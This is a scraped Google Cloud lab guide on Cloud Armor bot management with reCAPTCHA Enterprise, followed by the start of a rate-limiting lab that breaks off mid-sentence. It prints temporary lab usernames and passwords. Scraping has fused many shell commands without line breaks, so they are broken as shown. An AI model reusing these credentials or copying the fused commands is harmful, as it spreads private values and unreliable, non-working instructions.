In this lab, you configure an HTTP Load Balancer with a backend, as shown in the diagram below. You set up a reCAPTCHA session token site key and embed it in your website. You also set up redirection to reCAPTCHA Enterprise manual challenge. You then configure a Cloud Armor bot management policy to see how bot detection protects your application from malicious bot traffic.

What you'll learn
In this lab, you learn how to:
Set up a HTTP Load Balancer with appropriate health checks
Create a reCAPTCHA WAF challenge-page site key and associated it with Cloud Armor security policy
Create a reCAPTCHA session token site key and install it on your web pages
Create a Cloud Armor bot management policy
Validate that the bot management policy is handling traffic based on the rules configured
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxxstudent-02-21eef573fe2f@qwiklabs.netCopied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxxFIduoI7qcGGeCopied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.
Before you begin
In Cloud Shell, set up your project ID:
xxxxxxxxxxexport PROJECT_ID=$(gcloud config get-value project)echo $PROJECT_IDgcloud config set project $PROJECT_ID
Copied!
Enable APIs
Enable all necessary services:
xxxxxxxxxxgcloud services enable compute.googleapis.comgcloud services enable logging.googleapis.comgcloud services enable monitoring.googleapis.comgcloud services enable recaptchaenterprise.googleapis.com
Copied!
You're now set up to begin the first task.
Task 1. Configure firewall rules to allow HTTP and SSH traffic to backends
For this lab, you use the *default* VPC network created in your project when the lab spun up.
In this section, you configure firewall rules to allow HTTP traffic to the backends from the Google Cloud health checks and the Load Balancer. You then configure a firewall rule to allow SSH into the instances.
Create a firewall rule to allow HTTP traffic to the backends.
Health checks determine which instances of a load balancer can receive new connections. For HTTP load balancing, the health check probes to your load balanced instances come from addresses in the ranges 130.211.0.0/22 and 35.191.0.0/16. Your VPC firewall rules must allow these connections. Also, the load balancers talk to the backend on the same IP range.
To create a firewall rule to allow HTTP traffic to the backends:
In the console, navigate to Navigation menu (
Notice the existing ICMP, internal, RDP, and SSH firewall rules. Each Google Cloud project starts with the default network and these firewall rules.
Click Create Firewall Rule.
Set the following values, leave all other values at their defaults:
| Property | Value (type value or select option as specified) |
|---|---|
| Name | default-allow-health-check |
| Network | default |
| Targets | Specified target tags |
| Target tags | allow-health-check |
| Source filter | IPv4 Ranges |
| Source IPv4 ranges | 130.211.0.0/22, 35.191.0.0/16 |
| Protocols and ports | Specified protocols and ports, and then check tcp. Type 80 for the port number |
Note: Be sure to enter the two Source IPv4 ranges one-by-one and press SPACE in between them.
Click Create.
Alternatively, in the gCloud command line, use the following command:
xxxxxxxxxxgcloud compute firewall-rules create default-allow-health-check --direction=INGRESS --priority=1000 --network=default --action=ALLOW --rules=tcp:80 --source-ranges=130.211.0.0/22,35.191.0.0/16 --target-tags=allow-health-check
Copied!
Similarly, create a firewall rule to allow SSH-ing into the instances:
xxxxxxxxxxgcloud compute firewall-rules create allow-ssh --direction=INGRESS --priority=1000 --network=default --action=ALLOW --rules=tcp:22 --source-ranges=0.0.0.0/0 --target-tags=allow-health-check
Copied!
Click Check my progress to verify the objective.
Configure firewall rules to allow HTTP and SSH traffic to backends
Check my progress
Task 2. Configure instance templates and create managed instance groups
A managed instance group uses an instance template to create a group of identical instances. Use these to create the backend of the HTTP Load Balancer.
Configure the instance templates
An instance template is a resource that you use to create VM instances and managed instance groups. Instance templates define the machine type, boot disk image, subnet, labels, and other instance properties.
To create an instance template:
In the console, navigate to Navigation menu (
For Name, type lb-backend-template.
For Location, Select Global.
For Series, select N1.
Click Networking, Disks, Security, Management, Sole-Tenancy under Advanced options.
Go to the Management section and insert the following script into the Startup script field:
xxxxxxxxxx#! /bin/bashsudo apt-get updatesudo apt-get install apache2 -ysudo a2ensite default-sslsudo a2enmod sslsudo suvm_hostname="$(curl -H "Metadata-Flavor:Google" \http://metadata.google.internal/computeMetadata/v1/instance/name)"echo "Page served from: $vm_hostname" | \tee /var/www/html/index.html
Copied!
Click on the Networking tab and add the network tag: allow-health-check
Set the following values and leave all other values at their defaults:
| Property | Value (type value or select option as specified) |
|---|---|
| Network (Under Network Interfaces) | default |
| Subnetwork (Under Network Interfaces) | default (us-central1) |
| Network tags | allow-health-check |
Note: The network tag allow-health-check ensures that the HTTP Health Check and SSH firewall rules apply to these instances.
Click Create.
Wait for the instance template to be created.
Create the managed instance group
To Create the managed instance group:
Still in Compute Engine page, click Instance groups in the left pane.
Click Create instance group.
Select New managed instance group (stateless).
Set the following values, leave all other values at their defaults:
| Property | Value (type value or select option as specified) |
|---|---|
| Name | lb-backend-example |
| Location | Single zone |
| Region | us-central1 |
| Zone | us-central1-c |
| Instance template | lb-backend-template |
| Autoscaling | Set Autoscaling mode to Off: do not autoscale |
| Minimum number of instance | 1 |
Click Create.
Add a named port to the instance group
For your instance group, in Cloud Shell, define an HTTP service and map a port name to the relevant port:
xxxxxxxxxxgcloud compute instance-groups set-named-ports lb-backend-example \--named-ports http:80 \--zone <var>us-central1-c</var>
Copied!
The load balancing service forwards traffic to the named port.
Click Check my progress to verify the objective.
Configure instance templates and create managed instance groups
Check my progress
Task 3. Configure the HTTP Load Balancer
In this section, you configure the HTTP Load Balancer to send traffic to your backend lb-backend-example.
Start the configuration
In the console, click Navigation menu (
Select Application Load Balancer (HTTP/HTTPS) and Next.
Select Public facing (external) and Next.
Select Best for global workloads and Next.
Select Global external Application Load Balancer and Next.
Select Configure.
Set the Name to
http-lb.
Configure the frontend
Click Frontend configuration.
Specify the following, leaving all other values at their defaults:
| Property | Value (type value or select option as specified) |
|---|---|
| Protocol | HTTP |
| IP version | IPv4 |
| IP address | Ephemeral |
| Port | 80 |
Click Done.
Configure the backend
Backend services direct incoming traffic to one or more attached backends. Each backend is composed of an instance group and additional serving capacity metadata.
Click on Backend configuration.
For Backend services & backend buckets, click Create a backend service.
Set the following values, leave all other values at their defaults:
| Property | Value (select option as specified) |
|---|---|
| Name | http-backend |
| Protocol | HTTP |
| Named Port | http |
| Instance group | lb-backend-example |
| Port numbers | 80 |
Click Done.
For Cloud CDN, set the Cache mode to Use origin settings based on Cache-Control headers.
For Health Check, select Create a health check.

Set the following values, leave all other values at their defaults:
| Property | Value (select option as specified) |
|---|---|
| Name | http-health-check |
| Protocol | TCP |
| Port | 80 |
Note: Health checks determine which instances receive new connections.
This HTTP health check polls instances every 5 seconds, waits up to 5 seconds for a response and treats 2 successful or 2 failed attempts as healthy or unhealthy, respectively.
Click Save.
Check the Enable Logging box.
Set the Sample rate to
1.Click Create to create the backend service and click ok.
Review and create the HTTP Load Balancer
Host and path rules determine how your traffic is directed. For example, you could direct video traffic to one backend and static traffic to another backend. However, you are not configuring the Host and path rules in this lab.
Click on Review and finalize.

Review the Backend services and Frontend.
Click on Create.
Wait for the load balancer to be created.
Click on the name of the load balancer (http-lb).
Note the IPv4 address of the load balancer for the next task. In this lab, refer to it as
[LB_IP_v4].
Click Check my progress to verify the objective.
Configure the HTTP Load Balancer
Check my progress
Test the HTTP Load Balancer
Now that you created the HTTP Load Balancer for your backends, verify that traffic is forwarded to the backend service.
To test IPv4 access to the HTTP Load Balancer, open a new tab in your browser and navigate to http://[LB_IP_v4]. Be sure to replace
[LB_IP_v4]with the IPv4 address of the load balancer.
Note: It might take up to 5 minutes to access the HTTP Load Balancer. In the meantime, you might get a 404 or 502 error. Keep trying until you see the page load.
Task 4. Create and deploy reCAPTCHA session token and challenge-page site key
reCAPTCHA Enterprise for WAF and Google Cloud Armor integration offers the following features: reCAPTCHA challenge page, reCAPTCHA action-tokens, and reCAPTCHA session-tokens. In this task, you implement the reCATCHA session token site key and reCAPTCHA WAF challenge-page site.
Create reCAPTCHA session token and WAF challenge-page site key
Before you create the session token site key and challenge page site key, double-check that you've enabled the reCAPTCHA Enterprise API as indicated in the previous Enable API section.
The reCAPTCHA JavaScript sets a reCAPTCHA session-token as a cookie on the end-user's browser after the assessment. The end-user's browser attaches the cookie and refreshes the cookie as long as the reCAPTCHA JavaScript remains active.
Create the reCAPTCHA session token site key and enable the WAF feature for the key:
xxxxxxxxxxgcloud recaptcha keys create --display-name=test-key-name \--web --allow-all-domains --integration-type=score --testing-score=0.5 \--waf-feature=session-token --waf-service=ca
Copied!
The output of the above command gives you the session token site key you created. Record it to use later in this task.
You also set the WAF service to Cloud Armor to enable the Cloud Armor integration.
Note: You are using the integration type score which is leveraged in the Cloud Armor policy. You can alternatively use checkbox and invisible.
You also set a testing score when you create the key to validate that the bot management policies created with Cloud Armor are working as intended. Replicating bot traffic is not easy, so this is a good way to test the feature.
Create the reCAPTCHA WAF challenge-page site key and enable the WAF feature for the key. You can use the reCAPTCHA challenge page feature to redirect incoming requests to reCAPTCHA Enterprise to determine whether each request is potentially fraudulent or legitimate. Later, you associate this key with the Cloud Armor security policy to enable the manual challenge. This lab refers to this key as
CHALLENGE-PAGE-KEYin the later steps.
xxxxxxxxxxgcloud recaptcha keys create --display-name=challenge-page-key \--web --allow-all-domains --integration-type=INVISIBLE \--waf-feature=challenge-page --waf-service=ca
Copied!
Navigate to Navigation menu (
Implement reCAPTCHA session token site key
Navigate to Navigation menu (

Go to the webserver root directory and change user to root:
xxxxxxxxxxcd /var/www/html/sudo su
Copied!
Update the landing
index.htmlpage and embed the reCAPTCHA session token site key. The session token site key (that you recorded earlier) is set in the head section of your landing page as below:
xxxxxxxxxxsrc="https://www.google.com/recaptcha/enterprise.js?render=<SESSION_TOKEN_SITE_KEY>&waf=session" async defer>
Remember to replace <SESSION_TOKEN_SITE_KEY> with the site token before you run the following command:
xxxxxxxxxxecho '<!doctype html><html><head><title>ReCAPTCHA Session Token</title><script src="https://www.google.com/recaptcha/enterprise.js?render=<SESSION_TOKEN_SITE_KEY>&waf=session" async defer></script></head><body><h1>Main Page</h1><p><a href="/good-score.html">Visit allowed link</a></p><p><a href="/bad-score.html">Visit blocked link</a></p><p><a href="/median-score.html">Visit redirect link</a></p></body></html>' > index.html
Copied!
Create three other sample pages to test out the bot management policies:
good-score.html
xxxxxxxxxxecho '<!DOCTYPE html><html><head><meta http-equiv="Content-Type" content="text/html; charset=windows-1252"></head><body><h1>Congrats! You have a good score!!</h1></body></html>' > good-score.html
Copied!
bad-score.html
xxxxxxxxxxecho '<!DOCTYPE html><html><head><meta http-equiv="Content-Type" content="text/html; charset=windows-1252"></head><body><h1>Sorry, You have a bad score!</h1></body></html>' > bad-score.html
Copied!
median-score.html
xxxxxxxxxxecho '<!DOCTYPE html><html><head><meta http-equiv="Content-Type" content="text/html; charset=windows-1252"></head><body><h1>You have a median score that we need a second verification.</h1></body></html>' > median-score.html
Copied!
Validate that you are able to access all the webpages by opening them in your browser. Be sure to replace [LB_IP_v4] with the IPv4 address of the load balancer:
Open
http://[LB_IP_v4]/index.html. You verify that the reCAPTCHA implementation is working when you see "protected by reCAPTCHA" at the bottom right corner of the page:

Click into each of the links.

Validate you are able to access all the pages.

Click Check my progress to verify the objective.
Deploy reCAPTCHA session token and challenge-page site key
Check my progress
Task 5. Create Cloud Armor security policy rules for Bot Management
In this section, you use Cloud Armor bot management rules to allow, deny and redirect requests based on the reCAPTCHA score.
In Cloud Shell, create security policy via gcloud:
xxxxxxxxxxgcloud compute security-policies create recaptcha-policy \--description "policy for bot management"
Copied!
To use reCAPTCHA Enterprise manual challenge to distinguish between human and automated clients, associate the reCAPTCHA WAF challenge site key (CHALLENGE-PAGE-KEY) you previously created for a manual challenge with the security policy. In the following script, remember to replace "CHALLENGE-PAGE-KEY" with the key you previously created:
xxxxxxxxxxgcloud compute security-policies update recaptcha-policy \--recaptcha-redirect-site-key "CHALLENGE-PAGE-KEY"
Copied!
Add a bot management rule to allow traffic if the url path matches good-score.html and has a score greater than 0.4:
xxxxxxxxxxgcloud compute security-policies rules create 2000 \--security-policy recaptcha-policy\--expression "request.path.matches('good-score.html') && token.recaptcha_session.score > 0.4"\--action allow
Copied!
Add a bot management rule to deny traffic if the url path matches bad-score.html and has a score less than 0.6:
xxxxxxxxxxgcloud compute security-policies rules create 3000 \--security-policy recaptcha-policy\--expression "request.path.matches('bad-score.html') && token.recaptcha_session.score < 0.6"\--action "deny-403"
Copied!
Add a bot management rule to redirect traffic to Google reCAPTCHA if the url path matches median-score.html and has a score equal to 0.5:
xxxxxxxxxxgcloud compute security-policies rules create 1000 \--security-policy recaptcha-policy\--expression "request.path.matches('median-score.html') && token.recaptcha_session.score == 0.5"\--action redirect \--redirect-type google-recaptcha
Copied!
Attach the security policy to the backend service
http-backend:
xxxxxxxxxxgcloud compute backend-services update http-backend \--security-policy recaptcha-policy --global
Copied!
In the console, navigate to Navigation menu > Network Security > Cloud Armor policies.
Click
recaptcha-policy.
Your policy should resemble the following:

Click Check my progress to verify the objective.
Create Cloud Armor security policy rules for Bot Management
Check my progress
Task 6. Validate Bot Management with Cloud Armor
Open up a browser and enter the url
http://[LB_IP_v4]/index.html. Navigate to "Visit allowed link".

Open a new window in Incognito mode to ensure you have a new session.
Enter the url
http://[LB_IP_v4]/index.htmland navigate to "Visit blocked link". You should receive a HTTP 403 error:

Open a new window in Incognito mode to ensure you have a new session.
Enter the url
http://[LB_IP_v4]/index.htmland navigate to "Visit redirect link". You should see the redirection to Google reCAPTCHA and the manual challenge page as below:

Note: If the user interaction passes the assessment, reCAPTCHA Enterprise issues an exemption cookie. The browser attaches this exemption cookie to the user's subsequent requests to the same site until the cookie expires. By default, the exemption cookie expires after three hours.
Note: To prevent automated software from participating in abusive actions on your site, reCAPTCHA uses an advanced risk analysis engine and adaptive CAPTCHAs. It accomplishes this while allowing your valid users to pass through with ease. If the algorithm believes you are a human, it will validate the reCaptcha without additional action from you. If not, it will display a variety of images that you must categorize before proceeding. Only the most suspect traffic will be requested to solve a captcha by default. If you are not served with a challenge to solve, you can still check the policy logs and verify that you were exempted from solving a challenge.
Verify Cloud Armor logs
Explore the security policy logs to validate bot management worked as expected.
In the console, navigate to Navigation menu > Network Security > Cloud Armor.
Click recaptcha-policy.
Click Logs.
Click View policy logs.
Below is the MQL(monitoring query language) query, copy and paste into the query editor:
xxxxxxxxxxresource.type:(http_load_balancer) AND jsonPayload.enforcedSecurityPolicy.name:(recaptcha-policy)
Copied!
Now click Run Query.
Look for a log entry in Query results where the request is for
http://[LB_IP_v4]/good-score.html. Expand jsonPayload.Expand enforcedSecurityPolicy.

Note: If you are not seeing log entries, wait a couple of minutes for the policy to propagate, refresh the URLs you used earlier, then check the logs again.
Repeat the same for
http://[LB_IP_v4]/bad-score.htmlandhttp://[LB_IP_v4]/median-score.html.


Notice that the configuredAction is set to ALLOW, DENY or GOOGLE_RECAPTCHA with the name recaptcha-policy.
Note: Cloud Armor security policies create logs that can be explored to determine when traffic is denied and when it is allowed, along with the source of the traffic.
Click Check my progress to verify the objective.
Validate bot management with Cloud Armor
Check my progress
Congratulations!
You successfully implemented bot management with Cloud Armor. You configured an HTTP Load Balancer. Then, you created and implemented reCAPTCHA session token site key on a webpage. You also created a challenge-page site key. You set up Cloud Armor Bot management policy and validated how they handle requests based on the rules. You explored the security policy logs to identify why the traffic was allowed, blocked or redirected.
LAB - Rate Limiting with Cloud Armor
Overview
Google Cloud HTTP(S) load balancing is implemented at the edge of Google's network in Google's points of presence (POP) around the world. User traffic directed to an HTTP(S) load balancer enters the POP closest to the user and is then load balanced over Google's global network to the closest backend that has sufficient capacity available.
Cloud Armor IP allowlist/denylist enable you to restrict or allow access to your HTTP(S) load balancer at the edge of the Google Cloud, as close as possible to the user and to malicious traffic. This prevents malicious users or traffic from consuming resources or entering your virtual private cloud (VPC) networks.
In this lab, you configure an HTTP Load Balancer with global backends, as shown in the diagram below. Then, you'll stress test the Load Balancer and add a Cloud Armor rate limiting policy to restrict based on IP.
What you'll learn
In this lab, you learn how to perform the following tasks:
Create HTTP and health check firewall rules
Configure two instance templates
Create two managed instance groups
Configure an HTTP Load Balancer with IPv4 and IPv6
Stress test an HTTP Load Balancer
Add a Cloud Armor rate limiting policy to restrict based on IP
Verify that traffic is getting blocked when running a stress test from a VM
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxxstudent-02-228103688975@qwiklabs.netCopied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxx7kFwx0bs7ZSoCopied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.
Activate Cloud Shell
Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.
Click Activate Cloud Shell
Click through the following windows:
Continue through the Cloud Shell information window.
Authorize Cloud Shell to use your credentials to make Google Cloud API calls.
When you are connected, you are already authenticated, and the project is set to your Project_ID, qwiklabs-gcp-03-7acbbdef9b9d. The output contains a line that declares the Project_ID for this session:
xxxxxxxxxxYour Cloud Platform project in this session is set to qwiklabs-gcp-03-7acbbdef9b9d
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
(Optional) You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Click Authorize.
Output:
xxxxxxxxxxACTIVE: *ACCOUNT: student-02-228103688975@qwiklabs.netTo set the active account, run:$ gcloud config set account `ACCOUNT`
(Optional) You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = qwiklabs-gcp-03-7acbbdef9b9d
Note: For full documentation of gcloud, in Google Cloud, refer to the gcloud CLI overview guide.
Task 1. Configure HTTP and health check firewall rules
Configure firewall rules to allow HTTP traffic to the backends and TCP traffic from the Google Cloud health checker.
Create the HTTP firewall rule
Create a firewall rule to allow HTTP traffic to the backends.
In the Cloud Console, navigate to Navigation menu (
Notice the existing ICMP, internal, RDP, and SSH firewall rules.
Each Google Cloud project starts with the default network and these firewall rules.
Click Create Firewall Rule.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name default-allow-http Network default Targets Specified target tags Target tags http-server Source filter IPv4 Ranges Source IP ranges 0.0.0.0/0 Protocols and ports Specified protocols and ports, and then check tcp, type: 80 Note: Make sure to include the /0 in the Source IP ranges to specify all networks.
Click Create.
Create the health check firewall rules
Health checks determine which instances of a load balancer can receive new connections. For HTTP load balancing, the health check probes to your load balanced instances come from addresses in the ranges 130.211.0.0/22 and 35.191.0.0/16. Your firewall rules must allow these connections.
Still in the Firewall rules page, click Create Firewall Rule.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name default-allow-health-check Network default Targets Specified target tags Target tags http-server Source filter IPv4 Ranges Source IP ranges 130.211.0.0/22,35.191.0.0/16Protocols and ports Specified protocols and ports, and then check tcp Note: Make sure to enter the two Source IP ranges one-by-one and press SPACE in between them.
Click Create.
Click Check my progress to verify the objective.
Configure HTTP and health check firewall rules
Check my progress
Task 2. Configure instance templates and create instance groups
A managed instance group uses an instance template to create a group of identical instances. Use these to create the backends of the HTTP Load Balancer.
Configure the instance templates
An instance template is an API resource that you use to create VM instances and managed instance groups. Instance templates define the machine type, boot disk image, subnet, labels, and other instance properties. Create one instance template for us-east4 and one for europe-west1.
In the Cloud Console, navigate to Navigation menu (
For Name, type
us-east4-template.For Location, Select Global.
For Series, select E2.
Click Networking, disks, security, management, sole-tenancy.
Click the Management tab.
Under Metadata, click +ADD ITEM specify the following:
Key Value startup-script-url gs://cloud-training/gcpnet/httplb/startup.sh
Note: The startup-script-url specifies a script that executes when instances are started. This script installs Apache and changes the welcome page to include the client IP and the name, region, and zone of the VM instance. Feel free to explore this script.
Click Networking, for Network tags, type
http-server.For Network interfaces expand default network and set the following values.
Property Value (type value or select option as specified) Network default Subnet default ( us-east4)
Note: The network tag http-server ensures that the HTTP and Health Check firewall rules apply to these instances.
Click Create.
Wait for the instance template to be created.
Now create another instance template for subnet-b by copying us-east4-template:
Click on
us-east4-template and then click on the CREATE SIMILAR option from the top.For Name, type
europe-west1-template.For Location, Select Global.
Click Networking, disks, security, management, sole-tenancy.
Click Networking, expand
defaultnetwork.For Subnet, select default (
europe-west1).Click Create.
Create the managed instance groups
Create a managed instance group in us-east4 and one in europe-west1.
In the Navigation menu (
Click Create instance group.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name us-east4-migLocation Multiple zones Region us-east4Instance template us-east4-templateAutoscaling > Autoscaling signals (click the dropdown icon to edit) > Signal type CPU utilization Target CPU utilization 80, click Done. Initialization period 45 Minimum number of instances 1 Maximum number of instances 5 Note: Managed instance groups offer autoscaling capabilities that allow you to automatically add or remove instances from a managed instance group based on increases or decreases in load. Autoscaling helps your applications gracefully handle increases in traffic and reduces cost when the need for resources is lower. You just define the autoscaling policy and the autoscaler performs automatic scaling based on the measured load.
Click Create.
Now repeat the same procedure for create a second instance group for europe-west1-mig in europe-west1:
Click Create Instance group.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name europe-west1-migLocation Multiple zones Region europe-west1Instance template europe-west1-templateAutoscaling > Autoscaling signals (click the dropdown icon to edit) > Signal type CPU utilization Target CPU utilization 80, click Done. Initialization period 45 Minimum number of instances 1 Maximum number of instances 5 Click Create.
Click Check my progress to verify the objective.
Configure instance templates and instance group
Check my progress
Verify the backends
Verify that VM instances are being created in both regions and access their HTTP sites.
Still in Compute Engine, click VM instances in the left menu.
Notice the instances that start with
us-east4-migandeurope-west1-mig.These instances are part of the managed instance groups.
Click on the External IP of an instance of
us-east4-mig.You should see the Client IP (your IP address), the Hostname (starts with
us-east4-mig) and the Server Location (a zone inus-east4).Click on the External IP of an instance of
europe-west1-mig.You should see the Client IP (your IP address), the Hostname (starts with
